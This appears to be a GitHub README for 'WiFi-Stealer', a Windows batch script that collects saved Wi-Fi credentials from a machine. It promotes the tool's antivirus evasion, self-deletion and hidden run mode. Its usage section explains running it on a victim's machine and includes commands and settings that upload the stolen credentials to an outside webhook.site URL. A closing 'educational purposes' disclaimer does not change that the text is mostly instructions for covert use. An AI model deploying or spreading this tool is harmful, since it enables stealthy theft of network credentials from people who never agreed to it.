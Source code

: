 ## About
This is a simple batch program to grab Wi-Fi credentials from a local Windows machine.


## Features
- It does not need to be compiled.
- Runs on any windows machine (7/8.1/10/11).
- Undetectable by the default Windows Security AV (didn't test other AVs, but it should be also undetectable by them).
- Exfiltrated cedentials can be sent to a [webhook](https://webhook.site/) or saved locally to a txt file.
- The program has the ability to self-delete.
- To avoid problems caused by special characters, the credentials are also stored in a hexadecimal value (in the form `name:password`).

**Note**: When using [Webhook.site](https://webhook.site/), please take the expiration of the URLs into consideration.


## Usage
There is a wide variety of ways to run the program. You can choose to use it in whatever way suits your needs. But usually, you either run this program on your machine or on a target machine. Here are some examples on how you can use the program:

### Running the program on a local machine (yours)
To run the script and save the credentials in the default `txt` file (this code line sets the default text file: `set "credsfile=creds.txt"`), simply type:

```batch
> WiFi-Stealer.bat
```

Or you can specify a name for the `txt` file (or any file type), type this:

```batch
> WiFi-Stealer.bat --output "wifi-credentials.txt"
```

### Running the program on the target machine
Usually when running the program on a remote machine (program downloaded and executed by the victim) or on a machine that you gained physical access to, you need a way to retrieve the credentials. This is how you do it:

- **Specify the webhook as an argument**: Simply run the program and pass the URL of your webhook as an argument:

```batch
> WiFi-Stealer.bat --upload "https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- **Store the webhook inside the program**: If you can't run the program from the command prompt (or to avoid typing the url), ensure to save your webhook's URL in the variable `webhook` within the program. Another important step is to change the value of the `upload` variable from `0` to `1`. Once the program is executed, you will receive the credentials.

```batch
set upload=1

set "webhook=https://webhook.site/#!/87258b74-93c5-4792-8175-df08c3ffee20"
```

- Another cool feature is to make the program delete itself when it's done. To do this, you can simply change `selfdelete` varibale inside the program from `0` to `1`.

- To run the program in stealth (hidden) mode, remove the `::` form this line in the program:

```batch
::@powershell -window Hidden -command ""   &:: Uncomment if you want to run the program in hidden mode
```


## Screenshots

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_1.png)

![](https://raw.githubusercontent.com/Psi505/WiFi-Stealer/main/Screenshot_2.png)


## ⚠️ DISCLAIMER
This project can only be used for educational purposes. Using this software against target systems without prior permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
